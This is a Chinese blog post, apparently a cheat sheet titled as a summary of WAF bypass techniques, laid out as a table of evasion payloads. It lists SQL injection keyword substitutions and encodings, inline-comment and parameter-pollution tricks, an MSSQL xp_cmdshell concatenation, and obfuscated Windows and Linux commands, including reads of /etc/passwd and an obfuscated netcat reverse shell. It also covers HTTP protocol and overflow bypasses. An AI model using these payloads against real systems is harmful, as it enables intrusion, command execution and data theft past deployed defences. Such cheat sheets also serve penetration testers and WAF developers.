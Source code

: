 # 原创
：  【WAF绕过】姿势总结（一）

# 【WAF绕过】姿势总结（一）

【WAF绕过】姿势总结（一）
| 方法 | Payload 

Payload
| 编码 | 1、进行url编码（少数waf不会进行URL解码,部分waf进行一次url解码==&gt;可对payload进行二次url编码）  2、Unicode编码：单引号 = %u0027、%u02b9、%u02bc  3、部分十六进制编码：adminuser = 0x61646D696E75736572  SQL编码：unicode、HEX、URL、ascll、base64等  5、XSS编码：HTML、URL、ASCII、JS编码、base64等  

1、进行url编码（少数waf不会进行URL解码,部分waf进行一次url解码==&gt;可对payload进行二次url编码）

3、部分十六进制编码：adminuser = 0x61646D696E75736572

5、XSS编码：HTML、URL、ASCII、JS编码、base64等
| 大小写变换 | select = SELecT 

select = SELecT
| 关键字替换 | And = &amp;&amp;  Or = ||  等于号 = like （或使用’&lt;’ 和 ‘&gt;’ 进行判断）  if(a,b,c) = case when(A) then B else C end  substr(str,1,1) = substr (str) from 1 for 1  limit 1,1 = limit 1 offset 1  Union select 1,2 = union select * from ((select 1)A join (select 2)B;  hex()、bin() = ascii()  sleep() = benchmark()  concat_ws() = group_concat()  mid()、substr() = substring()  @@user = user()  @@datadir = datadir() 

And = &amp;&amp;

等于号 = like （或使用’&lt;’ 和 ‘&gt;’ 进行判断）

substr(str,1,1) = substr (str) from 1 for 1

Union select 1,2 = union select * from ((select 1)A join (select 2)B;

sleep() = benchmark()

mid()、substr() = substring()

@@datadir = datadir()
| 特殊字符替换（空格或注释绕过） | sqlserver中：/**/、/*|%23--%23|*/   mysql中： %0a、%0a/**/、//*!*//、#A%0a 

sqlserver中：/**/、/*|%23--%23|*/ 
| 特殊字符重写绕过 | selselectect 

selselectect
| 多请求拆分绕过  | ?a=[inputa]&amp;b=[inputb]  ===》(参数拼接)  and a=[inputa] and b=[inputb] 

?a=[inputa]&amp;b=[inputb]  ===》(参数拼接)  and a=[inputa] and b=[inputb]
| 参数放Cookie里面进行绕过 | $_REQUEST（获取参数，会获取GET POST COOKIE）===&gt;  若未检测cookie，我们可以放cookie里面 

$_REQUEST（获取参数，会获取GET POST COOKIE）===&gt;  若未检测cookie，我们可以放cookie里面
| 使用白名单绕过 | admin dede install等目录特殊目录在白名单内  URL/xxx.php?id=1 union select …… ===》  1、URL/xxx.php/admin?id=1 union select…… 2、URL/admin/..\xxx.php?id=1 union select…… 

admin dede install等目录特殊目录在白名单内

1、URL/xxx.php/admin?id=1 union select……
| 内联注释绕过 | id=1 and 1=1 ===》  id=1/*!and*/1=1 

id=1 and 1=1 ===》  id=1/*!and*/1=1
| 参数重写绕过 | URL/xx.php?id=1 union select  ===》  URL/xx.php?id=1&amp;id=union&amp;id=select&amp;id=……&amp;id= 

URL/xx.php?id=1 union select  ===》
| 特殊字符拼接 | mssql中，函数里面可以用+来拼接 ?id=1;exec('maste'+'r..xp'+'_cmdshell'+'"net user"') 

mssql中，函数里面可以用+来拼接
| Windows特性 | 利用符号分割字符：whoami ==》 ((((Wh^o^am””i))))   利用变量分割关键字：whoami ==》 set a=who&amp;&amp;b=ami&amp;&amp;call %a%%b%  设置一个变量：set a=123whoami456  ===》 取出变量a的第3位开始共计6个字符：echo %a:~3,6%  ===》执行取出的值：%a:~3,6% 

利用符号分割字符：whoami ==》 ((((Wh^o^am””i)))) 

设置一个变量：set a=123whoami456  ===》 取出变量a的第3位开始共计6个字符：echo %a:~3,6%  ===》执行取出的值：%a:~3,6%
| Linux特性 | 单引号或双引号连接符：whoami = w’h’o’a’m”i”  ?,*通配符：Cat /etc/passwd = cat /?t*/??ss**  [] 通配符，匹配【】中的字符：whoami = /b[12312i]n/w[23sh]oa[2msh]i  变量拼接：Whoami = a=who&amp;&amp;b=ami&amp;&amp;$a$b  目录穿越：cat /../../etc/passwd =cd ..&amp;&amp;cd ..&amp;&amp;cd etc&amp;&amp;cat passwd  Shell反弹（127.0.0.1 → 2130706433）：nc -e /bin/bash 127.0.0.1 1234 =/??n/?c -e /??n/b??h 2130706433 1234 

单引号或双引号连接符：whoami = w’h’o’a’m”i”

[] 通配符，匹配【】中的字符：whoami = /b[12312i]n/w[23sh]oa[2msh]i

目录穿越：cat /../../etc/passwd =cd ..&amp;&amp;cd ..&amp;&amp;cd etc&amp;&amp;cat passwd
| 云waf | ===》找真实IP 

===》找真实IP
| bp插件 | bypass waf 

bypass waf
| http协议绕过  | Content-Type绕过：application/x-www-form-urlencoded è multipart/form-data  请求方式绕过：更换请求方法  多Content-Disposition绕过：包含多个Content-Disposition时，中间件与waf取值不同   keep-alive（Pipeline）绕过：手动设置Connection:keep-alive（未断开），然后在http请求报文中构造多个请求，将恶意代码隐藏在第n个请求中，从而绕过waf  修改编码方式：Charset=xxx进行绕过  

Content-Type绕过：application/x-www-form-urlencoded è multipart/form-data

多Content-Disposition绕过：包含多个Content-Disposition时，中间件与waf取值不同 

修改编码方式：Charset=xxx进行绕过
| Waf检测限制绕过  | 参数溢出  缓冲区溢出： UnIoN SeLeCT ===》 and (select 1)=(Select 0xA*99999) UnIoN SeLeCT and 1=1 ===》 and 1=1 and 99…99999 //此处省略N多个9 同网段/ssrf绕过  

参数溢出

UnIoN SeLeCT ===》 and (select 1)=(Select 0xA*99999) UnIoN SeLeCT

同网段/ssrf绕过

---


---


##  实战中心：

[README.md · 书半生/网络安全知识体系-实战中心 - 码云 - 开源中国 (gitee.com)<img alt="icon-default.png?t=N5K3" src="https://csdnimg.cn/release/blog_editor_html/release2.3.2/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N5K3"/>https://gitee.com/shubansheng/Treasure_knowledge/blob/master/README.md](https://gitee.com/shubansheng/Treasure_knowledge/blob/master/README.md)

[GitHub - BLACKxZONE/Treasure_knowledge<img alt="icon-default.png?t=N5K3" src="https://csdnimg.cn/release/blog_editor_html/release2.3.2/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N5K3"/>https://github.com/BLACKxZONE/Treasure_knowledge](https://github.com/BLACKxZONE/Treasure_knowledge)
